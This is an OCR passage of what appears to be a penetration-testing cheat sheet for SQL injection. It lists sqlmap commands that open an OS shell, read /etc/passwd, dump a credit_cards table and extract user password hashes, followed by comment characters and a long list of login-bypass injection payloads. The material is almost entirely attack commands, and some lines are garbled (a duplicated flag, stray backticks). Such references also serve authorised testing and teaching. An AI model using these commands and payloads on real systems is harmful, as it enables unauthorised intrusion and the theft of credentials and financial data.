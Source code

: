     sqlmap -u "http://172.21.0.0" --dbms=mysql --os-shell
Using sqlmap with login-page  

    sqlmap -u "https://site.org/sqli/sqli.php?name=Bob" --file-read=/etc/passwd   #read file, if SQL is configured to allow that   
    sqlmap -r request.txt --dbs    
    sqlmap -r request.txt -D dbname -T tablename   
    sqlmap -r request.txt --search -D db_name_search   
    sqlmap -r request.txt -D nowasp -T credit_cards --dump --start=1 --start=2       #look at 1st 2 records in table    
    sqlmap -r request.txt --users --passwords           #find hashes / usernames     

### Manual Testing    
try single quote, then double quote, then try with comments     
Comment chars    

    ' " % %% -- /* // ) ;   
Testing Payloads    

    'or 1=1- -
    'or 1=1;-  
    ' or '1'=1
    ' or '1'=1 - -
    '–
    ' or '1'='1
    -'
    ' '
    '&'
    '^'
    '*'
    ' or ''-'
    ' or '' '
    ' or ''&'
    `' or ''^'``
    `' or ''*'
    "-"
    " "
    "&"
    "^"
    "*"
    " or ""-"
    " or "" "
    " or ""&"
    " or ""^"
    " or ""*"
    or true--
    " or true--
    ' or true--
    ") or true--
    ') or true--
    ' or 'x'='x
    ') or ('x')=('x
    ')) or (('x'))=(('x
    " or "x"="x
    ") or ("x")=("x
    ")) or (("x"))=(("x   
    